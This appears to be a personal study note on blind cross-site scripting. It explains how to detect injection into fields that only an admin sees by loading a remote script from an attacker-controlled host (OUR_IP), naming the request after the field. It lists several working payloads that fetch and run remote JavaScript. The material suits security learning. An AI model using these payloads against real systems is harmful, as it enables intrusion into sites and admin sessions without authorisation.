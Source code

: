 our test site shows a login form that on submit redirects us: 

![](Images/Pasted%20image%2020240124202330.png)

this indicates that we won't see how our input will be handled or how it will look in the browser, since it will appear for the admin only   

we do not have access to the admin panel so we can't do our normal tests to see which payloads get a response   
so how will we know when we get a successful injection? 

to do this we can do the same trick of using a payload that sends an HTTP request back to our server   
if the JS code gets executed we will get a response on our machine 

however there are two issues: 
- how can we know what specific field is vulnerable?
- how can we know what XSS payload to use? 

### Loading a remote script 

in HTML we can load a remote JS file with: 

`<script src="http://OUR_IP/script.js"></script>`

we can change the requested script name to the name of the field we are injecting in, so that when we get the request in our VM we will know what the vulnerable input field that executed the script is: 

`<script src="http://OUR_IP/username"></script>`

if we get a request for `/username` then we know that it is vulnerable to XSS   
so now we can start testing XSS payloads that load a remote script and see which one sends us a request

some examples from payloadsallthethings: 

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
